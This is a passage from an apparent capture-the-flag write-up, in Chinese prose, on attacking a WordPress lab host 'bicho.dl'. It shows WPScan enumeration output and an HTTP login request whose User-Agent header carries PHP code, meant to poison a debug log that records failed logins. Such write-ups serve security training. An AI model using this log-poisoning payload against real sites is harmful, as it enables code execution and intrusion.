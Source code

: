 ```
 | Version: 1.0.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://bicho.dl/wp-content/themes/bosa-travel-agency/style.css?ver=6.6.2, Match: 'Version: 1.0.0'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Apr 24 09:30:46 2025
[+] Requests Done: 187
[+] Cached Requests: 5
[+] Data Sent: 44.268 KB
[+] Data Received: 22.635 MB
[+] Memory used: 265.609 MB
[+] Elapsed time: 00:00:03
```

## Own www-data

发现一个**debug.log**，里面会存放登录失败的信息

![](./images/image-131.png)

尝试修改**User-Agent**的内容为**php**代码

```
POST /wp-login.php HTTP/1.1
Host: bicho.dl
Content-Length: 95
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://bicho.dl
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: <?php phpinfo();?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bicho.dl/wp-login.php
Accept-Encoding: gzip, deflate, br
Cookie: wordpress_test_cookie=WP%20Cookie%20check
Connection: keep-alive

log=bicho&pwd=123&wp-submit=Log+In&redirect_to=http%3A%2F%2Fbicho.dl%2Fwp-admin%2F&testcookie=1
```
